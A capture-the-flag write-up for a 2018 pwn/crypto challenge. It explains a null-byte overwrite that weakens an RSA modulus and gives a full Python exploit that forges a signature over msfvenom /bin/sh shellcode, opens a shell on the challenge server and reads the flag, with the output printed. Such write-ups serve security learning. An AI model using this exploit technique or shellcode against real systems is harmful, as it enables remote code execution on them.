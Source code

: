# Naughty or nice - Pwn/crypto (300)

Santa was fed up of getting letters from children, so he made a network service instead. He also hired a cryptographer to keep any naughty children out!

Service: nc 18.205.93.120 1214

Download: [WTnaMqWfC3gc6CDspAv69teSyh0mIA7Y-naughty_or_nice.tar.xz](https://s3.amazonaws.com/advent2018/WTnaMqWfC3gc6CDspAv69teSyh0mIA7Y-naughty_or_nice.tar.xz)
or [WTnaMqWfC3gc6CDspAv69teSyh0mIA7Y-naughty_or_nice.tar.xz](./static/WTnaMqWfC3gc6CDspAv69teSyh0mIA7Y-naughty_or_nice.tar.xz)

## Disassembly

The actual length of this disassembly is not too long. However, that didn't stop me from missing a pretty obvious (in restrospect) byte overwrite. Some pseudocode is as follows:

```
N = 0x61c70c0a941a5523ab2dbdaee498153feaee0cad1c6d9dcfea6de37dc8f32d1f7d48752f2d33e331dec1bc9031bed6c5fdb26ceb37fb619ff3b04dd222b6946824e4c25cac41bd9c910578cb2c04a243452f794fc4fbab8ff47adc8d6a00356eaf9bb74bf83ce5c6288fde471f609cb6c21fd670ced64b63736f7475a2a66fd
modulus := [rbp-0x180..-0x100]
username := [rbp-0x100..-0xe0]
shellcode := [rbp-0xe0..-0xa0]
signature := [rbp-0xa0..-0x20]

memcpy(modulus,N,0x80) // fixed, described later
print("Whats your name?")
fgets(username,0x20,stdin)
username[strlen(username)-1] = (byte)0
fread(shellcode,0xc0,stdin) // reads both shellcode and signature
if (signature^65537 % modulus) == sha1(shellcode):
  print("time to read that latter")
  jmp shellcode
else:
  print("naughty!")
  exit
```

The modulus for this seems to be generated securely (two large primes multiplied together). I tried for a long time to try and factor this using some weak generation method, but couldn't figure it out by the end of the competition.

Re-visiting the pseudocode above, you'll notice that there is a line `username[strlen(username)-1] = (byte)0` which, if the username is length zero, will overwrite the last byte of the modulus making it easily factorable. Once we can get this one byte overwrite, the modulus can be factored fairly easily. I chose to use sage to factor and then compute the lambda value (for creating `d` from `e=65537`).

```sage
In [1]: factor(4291357175424564237110181191679171266805916857692283274837219161498339146378077008530105318423169176941683593964880067899985596539028012628220684275340044520366224987841570561173475037537001293930959174171839178050441977323075585946203588506850388578521692857034945770654099238756338520246394723124309026304)
Out [1]: 2^9 * 3^2 * 197 * 4727330503807728158830131212633040823733957339357157795356144204625743736756729643138952030482375802997307258580178444792532074585611442281158219952212929753999031686056439651602900977264216385904627544869922952413857578657152850423676753413672964011520124851323394505532311097403256442389306087762079

In [2]: from sage.crypto.util import carmichael_lambda
In [3]: carmichael_lambda(4291357175424564237110181191679171266805916857692283274837219161498339146378077008530105318423169176941683593964880067899985596539028012628220684275340044520366224987841570561173475037537001293930959174171839178050441977323075585946203588506850388578521692857034945770654099238756338520246394723124309026304)
Out [3]: 6353532197117586645467696349778806867098438664096020076958657811016999582201044640378751528968313079228380955531759829801163108243061778425876647615774177589374698586059854891754298913443106822655819420305176448044224585715213430969421556587976463631483047800178642215435426114909976658571227381952232832
```

With the lambda value and new (truncated) modulus, its easy enough to create some shellcode, construct the right signature, and submit both to the server. My python code is shown below.

```python
import os
import socket
import binascii
from Crypto.Hash import SHA as SHA1
import sys
import gmpy
import time

def sha1(data):
	if type(data) == list:
		data = bytes(data)
	elif type(data) == str:
		data = data.encode('ascii')
	return SHA1.new(data).hexdigest()

def submit_solution():

	N = bytes([0x06,0x1c,0x70,0xc0,0xa9,0x41,0xa5,0x52,0x3a,0xb2,0xdb,0xda,0xee,0x49,0x81,0x53,0xfe,0xae,0xe0,0xca,0xd1,0xc6,0xd9,0xdc,0xfe,0xa6,0xde,0x37,0xdc,0x8f,0x32,0xd1,0xf7,0xd4,0x87,0x52,0xf2,0xd3,0x3e,0x33,0x1d,0xec,0x1b,0xc9,0x03,0x1b,0xed,0x6c,0x5f,0xdb,0x26,0xce,0xb3,0x7f,0xb6,0x19,0xff,0x3b,0x04,0xdd,0x22,0x2b,0x69,0x46,0x82,0x4e,0x4c,0x25,0xca,0xc4,0x1b,0xd9,0xc9,0x10,0x57,0x8c,0xb2,0xc0,0x4a,0x24,0x34,0x52,0xf7,0x94,0xfc,0x4f,0xba,0xb8,0xff,0x47,0xad,0xc8,0xd6,0xa0,0x03,0x56,0xea,0xf9,0xbb,0x74,0xbf,0x83,0xce,0x5c,0x62,0x88,0xfd,0xe4,0x71,0xf6,0x09,0xcb,0x6c,0x21,0xfd,0x67,0x0c,0xed,0x64,0xb6,0x37,0x36,0xf7,0x47,0x5a,0x2a,0x66,0xfd])
	N = int(binascii.hexlify(N).decode('ascii'),16)
	N0 = N & ~0xff
	lN0 = 6353532197117586645467696349778806867098438664096020076958657811016999582201044640378751528968313079228380955531759829801163108243061778425876647615774177589374698586059854891754298913443106822655819420305176448044224585715213430969421556587976463631483047800178642215435426114909976658571227381952232832
	E = 65537
	D = gmpy.invert(E,lN0)

	s = socket.socket()
	s.settimeout(5)
	s.connect(('18.205.93.120',1214))
	val = b''
	while not val.endswith(b"What's your name? "):
		val = val + s.recv(1024)

	s.send(b'\x00\n')
	val = b''
	while not val.endswith(b"Please write instructions for my elves to follow.\n"):
		val = val + s.recv(1024)
		print(len(val),val)

	pad = 0
	while pad < 256:

		# $ msfvenom -p linux/x64/exec CMD=/bin/sh -f python
		shellcode =  b""
		shellcode += b"\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68"
		shellcode += b"\x00\x53\x48\x89\xe7\x68\x2d\x63\x00\x00\x48\x89\xe6"
		shellcode += b"\x52\xe8\x08\x00\x00\x00\x2f\x62\x69\x6e\x2f\x73\x68"
		shellcode += b"\x00\x56\x57\x48\x89\xe6\x0f\x05"
		shellcode = shellcode + b'\x90' * (0x40-len(shellcode)-1) + bytes([pad])

		h = int(sha1(shellcode),16)
		sig = pow(h,D,N0)
		if pow(sig,E,N0) != h:
			pad += 1
		else:
			break

	sig_bytes = binascii.unhexlify('%0256x'%sig)

	s.send(shellcode+sig_bytes)

	val = b''
	while not val.endswith(b'Time to read that letter...\n=================================\n'):
		val = val + s.recv(1024)
		print(len(val), val)

	time.sleep(1)
	s.send(b'id\n')
	print(s.recv(10240).decode('ascii'))
	s.send(b'ls -al\n')
	print(s.recv(10240).decode('ascii'))
	s.send(b'cat flag\n')
	print(s.recv(10240).decode('ascii'))
	s.send(b'cat redir.sh\n')
	print(s.recv(10240).decode('ascii'))
	s.send(b'ps aux\n')
	print(s.recv(10240).decode('ascii'))

if __name__ == '__main__'

	submit_solution()

```

And the script output is:

```bash
$ ./challenge14.py 
91 b'And what would you like for Christmas, ?\nPlease write instructions for my elves to follow.\n'
24 b'\xe2\x99\xab Making a list... \xe2\x99\xaa'
25 b'\xe2\x99\xab Making a list... \xe2\x99\xaa\n'
54 b'\xe2\x99\xab Making a list... \xe2\x99\xaa\n\xe2\x99\xaa Checking it twice... \xe2\x99\xab\n'
122 b'\xe2\x99\xab Making a list... \xe2\x99\xaa\n\xe2\x99\xaa Checking it twice... \xe2\x99\xab\nNice! Time to read that letter...\n=================================\n'
uid=999(ctf) gid=999(ctf) groups=999(ctf)

total 188
drwxr-xr-x 1 root ctf    4096 Dec 14 05:52 .
drwxr-xr-x 1 root root   4096 Dec 14 05:52 ..
-rwxr-x--- 1 root ctf  175144 Dec 14 05:43 chall
-r--r----- 1 root ctf      32 Dec 14 05:43 flag
-rwxr-x--- 1 root ctf      37 Dec 14 05:43 redir.sh

AOTW{51gn1ng_7h1ngz_c4n_b_h4rd}

#! /bin/bash
cd /home/ctf && ./chall

USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.0  0.0  18376  3004 ?        Ss   Dec25   0:00 /bin/bash /etc/chall_init.sh
root        23  0.0  0.0   4532   824 ?        S    Dec25   0:00 /bin/sleep infinity
root        24  0.0  0.0  32384  2600 ?        Ss   Dec25   0:00 /usr/sbin/xinetd -pidfile /run/xinetd.pid -stayalive -inetd_compat -inetd_ipv6
ctf         85  0.0  0.0  18376  3156 ?        Ss   06:17   0:00 /bin/bash /home/ctf/redir.sh
ctf         86 96.2  0.0   7248   916 ?        R    06:17 471:28 ./chall
ctf         87  0.0  0.0  18376  3076 ?        Ss   06:17   0:00 /bin/bash /home/ctf/redir.sh
ctf         88 96.2  0.0   7248   872 ?        R    06:17 470:50 ./chall
ctf        207  0.0  0.0  18376  3084 ?        Ss   14:26   0:00 /bin/bash /home/ctf/redir.sh
ctf        208  0.0  0.0   4628   828 ?        S    14:26   0:00 /bin/sh -c /bin/sh
ctf        209  0.0  0.0   4628   820 ?        S    14:26   0:00 /bin/sh
ctf        214  0.0  0.0  34400  2880 ?        R    14:26   0:00 ps aux

```